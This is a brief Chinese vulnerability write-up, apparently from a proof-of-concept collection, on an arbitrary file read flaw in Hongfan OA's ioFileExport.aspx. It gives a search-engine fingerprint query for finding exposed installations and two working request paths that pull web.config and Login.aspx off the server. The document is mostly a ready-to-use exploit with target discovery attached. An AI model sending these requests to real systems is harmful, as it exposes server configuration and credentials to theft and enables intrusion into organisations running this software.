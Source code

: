 # 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
红帆OA
```

## 网络测绘

```
app="红帆-ioffice"
```

## 漏洞复现

登录页面

![image-20220520142002215](./images/202205201420294.png)

验证POC, 读取web.config文件

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```

![image-20220520142019955](./images/202205201420011.png)

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```

![image-20220520142034423](./images/202205201420478.png)